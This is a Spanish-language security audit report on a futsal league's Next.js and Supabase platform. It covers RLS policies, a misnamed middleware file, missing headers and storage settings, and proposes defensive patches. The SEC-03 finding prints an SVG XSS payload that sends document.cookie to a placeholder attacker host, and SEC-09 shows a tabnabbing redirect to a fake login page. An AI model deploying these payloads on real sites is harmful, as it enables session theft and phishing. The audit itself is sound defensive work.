

# Project & Database Security Forensic Audit v1.0
**Plataforma LFS — Liga de Fútsal de Ushuaia**  
**Fecha:** 20 de Septiembre de 2026  
**Auditor:** Principal Application Security Engineer (AppSec) & Supabase/PostgreSQL Forensic Auditor  
**Alcance:** Repositorio completo, Base de Datos PostgreSQL (Supabase RLS, Triggers, RPCs), Storage Buckets, Server Actions (Next.js 16 App Router), Políticas de Red y Despliegue en Hostinger.  
**Modo de Inspección:** ESTRICTO MODO LECTURA (100% Read-Only Forensic Inspection — No mutations performed).

---

## Resumen Ejecutivo

Durante la auditoría forense integral de seguridad defensiva sobre la **Plataforma LFS**, se identificaron vulnerabilidades que comprometen el principio de defensa en profundidad (*defense-in-depth*), el control de acceso en la capa de borde (*edge/middleware*), la integridad de la base de datos PostgreSQL en Supabase y la superficie de ataque en el almacenamiento de objetos (*Supabase Storage*).

Se evaluaron 9 áreas críticas:
1. **Configuración del Middleware de Next.js**: Detección de omisión crítica de ejecución de middleware por nomenclatura de archivo.
2. **Políticas de Row Level Security (RLS)**: Permisividad excesiva en tablas de auditoría y exposición de configuración global.
3. **Seguridad en Supabase Storage**: Aceptación de vectores SVG sin sanitización en buckets públicos con riesgo de Cross-Site Scripting Almacenado (Stored XSS).
4. **Arquitectura de Server Actions**: Dependencia absoluta de la clave `SUPABASE_SERVICE_ROLE_KEY` sin control de RLS como segunda barrera de contención.
5. **Funciones `SECURITY DEFINER`**: Triggers y funciones RPC sin `SET search_path = public` estricto en migraciones históricas.
6. **Protección de Red y Cabeceras HTTP**: Ausencia de Content-Security-Policy (CSP), `X-Frame-Options` y cabeceras de transporte seguro.
7. **Control de Ráfagas (Rate Limiting) y DoS**: Límite de carga de cuerpo elevado (30MB) en endpoints públicos sin cuotas ni rate limiting.
8. **Seguridad de Navegación Frontend**: Enlaces externos y previsualización de documentos con riesgo de *Reverse Tabnabbing*.
9. **Fuga de Secretos y Control de Versiones**: Verificación exhaustiva de `.gitignore` y registros históricos de Git (`git log`).

---

## 1. Matriz Resumen de Amenazas

| ID | Vulnerabilidad | Vector / Archivo | Severidad | CVSS v3.1 | Estado |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **SEC-01** | Omisión de Middleware por Nomenclatura (`proxy.ts` vs `middleware.ts`) | `src/proxy.ts` (Next.js App Router) | **Crítica** | **9.1** (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N) | Pendiente |
| **SEC-02** | Falsificación e Inyección en Registro de Auditoría (`audit_logs` con `WITH CHECK (true)`) | `supabase_schema.sql:185`<br>`supabase_paso10_configuracion.sql:34` | **Alta** | **7.5** (CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:N) | Pendiente |
| **SEC-03** | Stored XSS mediante Archivos SVG en Bucket Público | `supabase_paso10_configuracion.sql:210` (`league-assets`) | **Alta** | **8.0** (CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N) | Pendiente |
| **SEC-04** | Exposición Pública de Parámetros Administrativos (`league_settings` RLS Público) | `supabase_paso10_configuracion.sql:114` | **Media** | **5.3** (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N) | Pendiente |
| **SEC-05** | Riesgo de Denegación de Servicio (DoS) y Agotamiento de Storage en Endpoints Públicos | `next.config.ts:10`<br>`src/actions/pases.actions.ts:511` | **Media** | **6.5** (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H) | Pendiente |
| **SEC-06** | Ausencia de Cabeceras HTTP de Seguridad (CSP, HSTS, X-Frame-Options) | `next.config.ts` | **Media** | **5.7** (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N) | Pendiente |
| **SEC-07** | Funciones `SECURITY DEFINER` sin Pinning de `search_path` (Schema Hijacking) | `supabase_paso4_representantes_y_usuarios.sql:174`<br>`supabase_schema.sql:191` | **Media** | **6.0** (CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:N) | Pendiente |
| **SEC-08** | Evasión Sistemática de RLS mediante Service Role en Server Actions | `src/actions/*.actions.ts`<br>`src/lib/supabase/admin.ts:11` | **Media** | **5.0** (CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:L/I:L/A:N) | Pendiente |
| **SEC-09** | Riesgo de Reverse Tabnabbing por `window.open` sin `noopener,noreferrer` | `src/components/admin/CeldaDocumento.tsx:57`<br>`src/components/tesoreria/VerComprobante.tsx:21`<br>`src/components/pases/DocumentosPase.tsx:36` | **Baja** | **3.8** (CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:L/I:L/A:N) | Pendiente |

---

## 2. Detalle Forense por Vulnerabilidad

---

### SEC-01: Omisión Crítica de Middleware por Nomenclatura (`proxy.ts` vs `middleware.ts`)

* **Ubicación:** [src/proxy.ts](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/src/proxy.ts#L1-L76)  
* **Mecanismo de Explotación:**  
  En Next.js (App Router y versiones 14, 15, 16), el framework solo reconoce y ejecuta de forma automática el archivo de middleware si se encuentra exactamente en la raíz como `middleware.ts` o dentro del directorio fuente como `src/middleware.ts`.  
  El código de protección de rutas y validación de tokens de Supabase se encuentra actualmente implementado en `src/proxy.ts`. Dado que ningún archivo `src/middleware.ts` o `middleware.ts` importa ni delega las solicitudes a `proxy.ts`, el motor de enrutamiento de Next.js **no ejecuta este intermediario en las solicitudes HTTP entrantes**.  
  Si un usuario accede directamente a `/admin`, `/club`, `/referee` o `/tesoreria`, las rutas de servidor o páginas estáticas son devueltas sin la validación previa de sesión y rol en el borde (*edge*). Aunque algunas páginas realizan validaciones secundarias o redirecciones con `useRouter()` en el cliente, un atacante que use `curl` o deshabilite JavaScript en el navegador puede recibir el HTML generado o interactuar con componentes del servidor no aislados.
* **Impacto Potencial:**  
  **Confidencialidad e Integridad Altas.** El control perimetral queda deshabilitado en el borde, dependiendo exclusivamente de las verificaciones individuales dentro de cada Server Component o Server Action.
* **Propuesta de Parche Defensivo (Read-Only):**  
  Crear el archivo canónico [src/middleware.ts](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/src/middleware.ts) que ejecute o reenvíe directamente la lógica de protección:
  ```typescript
  // src/middleware.ts
  export { proxy as middleware } from './proxy';

  export const config = {
    matcher: [
      '/admin/:path*',
      '/club/:path*',
      '/referee/:path*',
      '/tesoreria/:path*',
      '/login',
      '/registro',
    ],
  };
  ```

---

### SEC-02: Falsificación e Inyección en Registro de Auditoría (`audit_logs` con `WITH CHECK (true)`)

* **Ubicación:**  
  - [supabase_schema.sql](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/supabase_schema.sql#L185) (Línea 185)  
  - [supabase_paso10_configuracion.sql](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/supabase_paso10_configuracion.sql#L34) (Línea 34)  
  ```sql
  CREATE POLICY "Usuarios autenticados insertan audit_logs"
      ON public.audit_logs FOR INSERT
      TO authenticated
      WITH CHECK (true);
  ```
* **Mecanismo de Explotación:**  
  La directiva `WITH CHECK (true)` permite a cualquier usuario que posea un token JWT válido (por ejemplo, un delegado de club, árbitro o usuario registrado) realizar solicitudes directas vía API REST de Supabase (`/rest/v1/audit_logs`) insertando registros arbitrarios.  
  Un atacante puede:
  1. Forjar eventos que incriminen a administradores: insertar `user_id` con el UUID del administrador de la liga y registrar acciones destructivas falsas (`"ELIMINACION_EQUIPO"`, `"APROBACION_TRANSFERENCIA"`).
  2. Modificar el campo `ip_address` para simular ataques provenientes de rangos externos.
  3. Desbordar la tabla con millones de entradas para encubrir una acción fraudulenta real dentro del ruido de registros.
* **Impacto Potencial:**  
  **Pérdida de No Repudio e Integridad Forense.** Los registros de auditoría pierden validez probatoria ante disputas de transferencias, sanciones disciplinarias o auditorías de tesorería.
* **Propuesta de Parche Defensivo (Read-Only):**  
  Eliminar la política abierta y forzar que los registros se realicen únicamente a través de funciones con contexto verificado (`auth.uid() = user_id`) o delegar la escritura exclusivamente a procedimientos del sistema con `SECURITY DEFINER`:
  ```sql
  DROP POLICY IF EXISTS "Usuarios autenticados insertan audit_logs" ON public.audit_logs;

  CREATE POLICY "Solo insercion con identidad verificada en audit_logs"
      ON public.audit_logs FOR INSERT
      TO authenticated
      WITH CHECK (
          auth.uid() = user_id 
          AND action IS NOT NULL
      );

  -- O mejor aun: restringir inserciones a nivel DDL permitiendo solo a service_role:
  CREATE POLICY "Solo service_role inserta audit_logs"
      ON public.audit_logs FOR INSERT
      TO service_role
      WITH CHECK (true);
  ```

---

### SEC-03: Stored XSS mediante Archivos SVG en Bucket Público (`league-assets`)

* **Ubicación:** [supabase_paso10_configuracion.sql](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/supabase_paso10_configuracion.sql#L210) (Líneas 207-214)  
  ```sql
  INSERT INTO storage.buckets (id, name, public, file_size_limit, allowed_mime_types)
  VALUES (
    'league-assets',
    'league-assets',
    true,
    5242880,
    ARRAY['image/png', 'image/jpeg', 'image/webp', 'image/svg+xml']
  )
  ```
* **Mecanismo de Explotación:**  
  El bucket `league-assets` está configurado como `public: true` y permite el tipo MIME `image/svg+xml`. Los archivos XML/SVG admiten de forma nativa etiquetas `<script>` y manejadores de eventos JavaScript (`onload`, `onclick`, `onerror`).  
  Si un atacante con acceso al módulo de configuración o mediante un punto de subida de logotipos carga un archivo SVG con un payload malicioso:
  ```xml
  <svg xmlns="http://www.w3.org/2000/svg" onload="fetch('https://malicious.com/steal?c='+document.cookie)">
    <circle cx="50" cy="50" r="40" fill="red" />
  </svg>
  ```
  Al ser accedido directamente en el navegador por un administrador, el navegador interpreta el archivo como una aplicación XML activa ejecutando el script en el contexto del origen, permitiendo la suplantación de sesión y el robo de credenciales.
* **Impacto Potencial:**  
  **Alta Severidad (Stored XSS).** Compromiso de sesiones administrativas, robo de tokens de autenticación y ejecución de acciones no autorizadas en nombre del usuario víctima.
* **Propuesta de Parche Defensivo (Read-Only):**  
  Restringir el tipo MIME excluyendo `image/svg+xml` de buckets públicos donde usuarios carguen imágenes, o forzar la descarga de SVG como binario plano (`Content-Disposition: attachment; filename="asset.svg"`):
  ```sql
  UPDATE storage.buckets
  SET allowed_mime_types = ARRAY['image/png', 'image/jpeg', 'image/webp']
  WHERE id = 'league-assets';
  ```

---

### SEC-04: Exposición Pública de Parámetros Administrativos (`league_settings` RLS Público)

* **Ubicación:** [supabase_paso10_configuracion.sql](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/supabase_paso10_configuracion.sql#L114)  
  ```sql
  CREATE POLICY "lectura publica league_settings"
      ON public.league_settings FOR SELECT
      USING (true);
  ```
* **Mecanismo de Explotación:**  
  La política permite el acceso `SELECT` irrestricto a cualquier usuario anónimo mediante la API pública de Supabase.  
  La tabla `league_settings` almacena el registro `global_settings` que contiene la totalidad de las reglas de negocio de la liga en formato JSON: estructura de aranceles de pases, límites de planteles, periodos de habilitación de transferencias, configuraciones de sanciones y parámetros de contacto interno.  
  Cualquier persona externa puede obtener la totalidad de estas definiciones sin autenticarse, facilitando la identificación de umbrales para evasión de controles o ingeniería social dirigida contra delegados de clubes.
* **Impacto Potencial:**  
  **Fuga de Información de Negocio y Reglas Administrativas Internas.**
* **Propuesta de Parche Defensivo (Read-Only):**  
  Segregar la lectura de configuraciones entre parámetros públicos (nombre de la liga, logo, redes sociales) y parámetros internos (aranceles, multas, configuración de auditoría), o requerir autenticación mínima:
  ```sql
  DROP POLICY IF EXISTS "lectura publica league_settings" ON public.league_settings;

  -- Solo usuarios autenticados leen la configuracion general
  CREATE POLICY "Usuarios autenticados leen league_settings"
      ON public.league_settings FOR SELECT
      TO authenticated
      USING (true);

  -- O crear una vista sanitizada (v_public_league_info) para anonimos.
  ```

---

### SEC-05: Riesgo de Denegación de Servicio (DoS) y Agotamiento de Storage en Endpoints Públicos

* **Ubicación:**  
  - [next.config.ts](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/next.config.ts#L8-L12) (Línea 10: `bodySizeLimit: "30mb"`)  
  - [src/actions/pases.actions.ts](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/src/actions/pases.actions.ts#L511) (`firmarPasePublico9b`)  
* **Mecanismo de Explotación:**  
  Next.js tiene configurado un límite de cuerpo en Server Actions de **30 MB** (`bodySizeLimit: "30mb"`).  
  El flujo de firma pública de transferencias (`/firmar-pase/[token]`) no requiere que el usuario esté logueado (actúa el jugador o tutor mediante un token único). La Server Action `firmarPasePublico9b` recibe datos base64 correspondientes a 4 imágenes: firma del jugador, foto de DNI frente/dorso, firma del tutor y DNI del tutor.  
  La acción no cuenta con limitación de ráfagas (*Rate Limiting* por IP) ni valida el tamaño individual de cada base64 antes de procesarlo y almacenarlo en Supabase Storage. Un atacante automatizado puede realizar envíos concurrentes con cargas de 30 MB, consumiendo rápidamente el ancho de banda del servidor Next.js en Hostinger y agotando el espacio de almacenamiento del plan de Supabase.
* **Impacto Potencial:**  
  **Degradación del Servicio y Agotamiento de Recursos Financieros/Almacenamiento (Denial of Wallet / DoS).**
* **Propuesta de Parche Defensivo (Read-Only):**  
  1. Reducir el `bodySizeLimit` a un máximo razonable (ej. `10mb`).  
  2. Implementar un validador estricto con Zod que rechace cadenas base64 mayores a 2.5 MB por archivo.  
  3. Añadir rate limiting en memoria o Upstash Redis por IP para rutas de firma pública.

---

### SEC-06: Ausencia de Cabeceras HTTP de Seguridad (CSP, HSTS, X-Frame-Options)

* **Ubicación:** [next.config.ts](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/next.config.ts#L1-L18)  
* **Mecanismo de Explotación:**  
  El archivo de configuración de Next.js no define el bloque `headers()`. En consecuencia, las respuestas del servidor carecen de:
  - `Content-Security-Policy (CSP)`: Permite a scripts inyectados conectarse a servidores externos o cargar recursos no autorizados.
  - `X-Frame-Options: DENY / SAMEORIGIN`: Permite que la plataforma sea embebida dentro de un `<iframe>` en un sitio web de terceros, posibilitando ataques de **Clickjacking** (por ejemplo, engañar a un delegado para aprobar un pase o confirmar un pago involuntariamente).
  - `X-Content-Type-Options: nosniff`: Previene ataques de confusión de tipos MIME en navegadores antiguos.
  - `Strict-Transport-Security (HSTS)`: Garantiza que la comunicación se realice exclusivamente por HTTPS.
* **Impacto Potencial:**  
  **Vulnerabilidad a Clickjacking, ataques de degradación SSL y menor resistencia frente a vectores XSS.**
* **Propuesta de Parche Defensivo (Read-Only):**  
  Añadir cabeceras de seguridad robustas en `next.config.ts`:
  ```typescript
  // next.config.ts (Propuesta defensiva)
  const securityHeaders = [
    { key: 'X-Frame-Options', value: 'DENY' },
    { key: 'X-Content-Type-Options', value: 'nosniff' },
    { key: 'Referrer-Policy', value: 'strict-origin-when-cross-origin' },
    { key: 'Permissions-Policy', value: 'camera=(), microphone=(), geolocation=()' },
    {
      key: 'Strict-Transport-Security',
      value: 'max-age=63072000; includeSubDomains; preload',
    },
  ];

  export default {
    async headers() {
      return [
        {
          source: '/(.*)',
          headers: securityHeaders,
        },
      ];
    },
  };
  ```

---

### SEC-07: Funciones `SECURITY DEFINER` sin Pinning de `search_path` (Schema Hijacking)

* **Ubicación:**  
  - [supabase_paso4_representantes_y_usuarios.sql](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/supabase_paso4_representantes_y_usuarios.sql#L174) (`public.handle_new_user`)  
  - [supabase_schema.sql](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/supabase_schema.sql#L191)  
* **Mecanismo de Explotación:**  
  Cuando una función en PostgreSQL se declara con `SECURITY DEFINER`, se ejecuta con los privilegios de su creador (generalmente `postgres` o `supabase_admin`).  
  Si la función no fija explícitamente el parámetro `search_path` mediante la cláusula `SET search_path = public, pg_temp;`, la resolución de nombres de tablas y funciones depende del esquema de la sesión que invoca la función. Un atacante con permisos para crear objetos en esquemas temporales o secundarios puede crear una tabla o función homónima para secuestrar el flujo de ejecución (*Schema Search Path Hijacking*).
* **Impacto Potencial:**  
  **Escalada de Privilegios a nivel de Base de Datos.**
* **Propuesta de Parche Defensivo (Read-Only):**  
  Añadir de forma obligatoria `SET search_path = public, pg_temp;` en todas las funciones con `SECURITY DEFINER`:
  ```sql
  CREATE OR REPLACE FUNCTION public.handle_new_user()
  RETURNS trigger
  LANGUAGE plpgsql
  SECURITY DEFINER
  SET search_path = public, pg_temp
  AS $$
  BEGIN
    INSERT INTO public.profiles (id, email, full_name, role)
    VALUES (
      new.id,
      new.email,
      coalesce(new.raw_user_meta_data->>'full_name', ''),
      'club'
    )
    ON CONFLICT (id) DO NOTHING;
    RETURN new;
  END;
  $$;
  ```

---

### SEC-08: Evasión Sistemática de RLS mediante Service Role en Server Actions

* **Ubicación:**  
  - [src/lib/supabase/admin.ts](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/src/lib/supabase/admin.ts#L11) (`createLfsAdminClient`)  
  - Múltiples Server Actions en `src/actions/pases.actions.ts`, `src/actions/equipos.actions.ts`, `src/actions/tesoreria.actions.ts`.  
* **Mecanismo de Explotación:**  
  La arquitectura actual utiliza ampliamente `createLfsAdminClient()`, el cual inicializa un cliente de Supabase con `SUPABASE_SERVICE_ROLE_KEY`. Este cliente **omite completamente todas las políticas de Row Level Security (RLS)** en PostgreSQL.  
  Aunque las Server Actions realizan comprobaciones manuales de rol en el código TypeScript (por ejemplo: `if (profile.role !== 'admin') throw new Error(...)`), cualquier falla lógica menor, condición de carrera (*race condition*) o parámetro omitido en una cláusula `where` ejecuta la mutación con privilegios absolutos de superadministrador. Se elimina la segunda capa de defensa en profundidad.
* **Impacto Potencial:**  
  **Ausencia de Defensa en Profundidad.** Un error de validación en la capa TypeScript resulta en mutaciones o lecturas no autorizadas directas en la base de datos sin contención a nivel PostgreSQL.
* **Propuesta de Parche Defensivo (Read-Only):**  
  Utilizar el cliente con contexto de usuario (`createLfsServerClient()`) como estándar primario en Server Actions para que PostgreSQL RLS evalúe `auth.uid()`, reservando `createLfsAdminClient()` de forma exclusiva para operaciones del sistema o mantenimiento desatendido (cron jobs).

---

### SEC-09: Riesgo de Reverse Tabnabbing por `window.open` sin `noopener,noreferrer`

* **Ubicación:**  
  - [src/components/admin/CeldaDocumento.tsx](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/src/components/admin/CeldaDocumento.tsx#L57)  
  - [src/components/tesoreria/VerComprobante.tsx](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/src/components/tesoreria/VerComprobante.tsx#L21)  
  - [src/components/pases/DocumentosPase.tsx](file:///c:/Users/rocio/OneDrive/Escritorio/Andres/Plataforma%20LFS/src/components/pases/DocumentosPase.tsx#L36)  
* **Mecanismo de Explotación:**  
  Se utiliza la instrucción `window.open(url, '_blank')` sin especificar las opciones `'noopener,noreferrer'`.  
  Cuando una página abre otra ventana mediante `_blank` sin `noopener`, la ventana de destino obtiene acceso al objeto `window.opener` de la ventana original. Si el documento abierto es un recurso manipulado o un enlace externo comprometido, el sitio abierto puede redirigir la pestaña del administrador a un clon de phishing legítimo de la Liga (`window.opener.location = 'https://fake-login-lfs.com'`) sin que el usuario lo note de inmediato.
* **Impacto Potencial:**  
  **Ataque de Suplantación y Phishing dirigido (Reverse Tabnabbing).**
* **Propuesta de Parche Defensivo (Read-Only):**  
  Modificar las invocaciones a:
  ```typescript
  window.open(url, '_blank', 'noopener,noreferrer');
  ```
  O en enlaces JSX estándar: `<a href={url} target="_blank" rel="noopener noreferrer">`.

---

## 3. Plan de Remediación Priorizado



### Etapa 1: Parches Críticos Inmediatos (Tiempo estimado: 24 - 48 horas)
1. **Activar Middleware Canónico de Next.js (`SEC-01`):**  
   Crear `src/middleware.ts` reexportando `proxy` para asegurar que ninguna petición a `/admin`, `/club`, `/referee` o `/tesoreria` eluda la validación criptográfica del JWT de Supabase.
2. **Restricción de Escritura en Registros de Auditoría (`SEC-02`):**  
   Ejecutar DDL en Supabase para revocar la directiva `WITH CHECK (true)` en `public.audit_logs`, restringiendo la inserción a funciones del servidor o exigiendo coincidencia con `auth.uid()`.

### Etapa 2: Endurecimiento de Server Actions, Storage y RLS (Tiempo estimado: 3 - 5 días)
1. **Blindaje de Tipos MIME en Supabase Storage (`SEC-03`):**  
   Retirar `image/svg+xml` de `league-assets` para neutralizar el vector de Stored XSS.
2. **Protección de Parámetros Globales (`SEC-04`):**  
   Ajustar la política de `league_settings` para requerir autenticación o aislar los valores públicos en una vista sin aranceles ni detalles de auditoría.
3. **Fijación de `search_path` en Funciones `SECURITY DEFINER` (`SEC-07`):**  
   Actualizar todas las funciones DDL de triggers (`handle_new_user` y afines) agregando `SET search_path = public, pg_temp;`.
4. **Adopción de Defensa en Profundidad con RLS (`SEC-08`):**  
   Reemplazar el uso indiscriminado de `createLfsAdminClient()` por `createLfsServerClient()` en las Server Actions donde el usuario ya esté autenticado, permitiendo que PostgreSQL valide los límites de club y roles.

### Etapa 3: Fortalecimiento de Cabeceras HTTP, Prevención de Abuso y Frontend (Tiempo estimado: 1 semana)
1. **Configuración de Cabeceras HTTP y Prevención de Clickjacking (`SEC-06`):**  
   Añadir en `next.config.ts` las cabeceras `X-Frame-Options: DENY`, `X-Content-Type-Options: nosniff`, `Strict-Transport-Security` y CSP base.
2. **Control de Ráfagas y Reducción de Tamaño de Carga (`SEC-05`):**  
   Reducir el `bodySizeLimit` a 10MB en `next.config.ts` e introducir validaciones de peso máximo en los uploads de firmas y documentos.
3. **Saneamiento de Enlaces y Pestañas Nuevas (`SEC-09`):**  
   Añadir `noopener,noreferrer` en los manejadores `window.open` de comprobantes y documentos.

---

## 4. Estado de Verificación de Credenciales y Git

- **Variables de Entorno (`.env*`):**  
  Se verificó que `.gitignore` excluye `.env`, `.env.local`, `.env.production` y `.env*.local`. No se detectaron secretos ni tokens de Service Role confirmados en el historial de commits indexados.
- **Exposición en Cliente:**  
  La clave `SUPABASE_SERVICE_ROLE_KEY` no se encuentra expuesta con prefijo `NEXT_PUBLIC_` ni importada en componentes con directiva `'use client'`.

---

> 🛑 **PAUSA OBLIGATORIA DE SEGURIDAD (STRICT READ-ONLY):**  
> De acuerdo con las instrucciones de la auditoría forense, no se han aplicado modificaciones sobre el código ni sobre la base de datos de producción. Las soluciones descritas representan propuestas de remediación defensiva a la espera de aprobación formal.
